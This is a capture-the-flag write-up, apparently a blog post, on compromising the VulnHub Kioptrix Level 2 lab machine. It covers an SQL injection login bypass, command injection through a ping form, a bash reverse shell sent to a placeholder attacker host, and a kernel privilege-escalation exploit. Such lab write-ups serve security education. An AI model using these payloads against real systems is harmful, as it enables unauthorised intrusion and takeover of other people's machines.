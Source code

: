 ```yaml
---
layout: post
title: Kioptrix Level 2
---
```

[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.4  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.4`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL2/NMap1.JPG)

We have 6 ports open: 22 (ssh), 80 (http), 111 (rpcbind), 443 (ssl/https), 631 (ipp), 3306 (mysql)

I'll start with the HTTP port in which we are greeted with an Administration login page.

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.4 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

Nothing useful

Same with Dirbuster for recurisve search

### SQL Injection

`' or '1'='1`

Enter in both Username and Password and we get a login

We see an option to ping a machine on the network which suggests we may have RCE

### RCE Check

I entered the machine IP into the box and it opens a new tab with the ping results. I'm assuming that the command it's running is simply: ping <IP> where the IP is the user entered text.
 
 We know the machine is running on linux so I appened ` \| id` which proves successful.
 
 ![Ping RCE check](/images/KioptrixL2/PingID.JPG)
 
### NetCat
 
 Start a netcat listener on local machine
 
 `nc -lvnp 4444`
 
### RCE Reverse Shell
 
 Grab a reverse shell from (Pentest Monkey's Cheat Sheet)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] 
 
 `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
 
 I entered `x.x.x.4 | bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1` into the website and we get reverse shell on our local machine as user apache
 
 Spawn a TTY shell using `python -c 'import pty; pty.spawn("/bin/sh")'` from (Netsec TTY Cheat Sheet)[https://netsec.ws/?p=337]
 
### Privilege Escalation
 
I started a python web server `python3 -m http.server` in my directory containing LinEnum.sh

`cd /tmp` and `wget http://x.x.x.49:8000/LinEnum.sh` to get the script onto the target and `chmod 700 LinEnum.sh` to be able to run it.

This gets us important system information such as CentOS release 4.5 (Final) and Linux version 2.6.9-55

`searchsploit linux kernel 2.6 centos` suggests we can use the `9545.c` exploit

To upload to the target machine, we use the same python webserver method as before

`gcc -o exploit 9545.c`

`chmod 700 exploit`

`./exploit`

`uid=0(root) gid=0(root) groups=48(apache)` and we are root
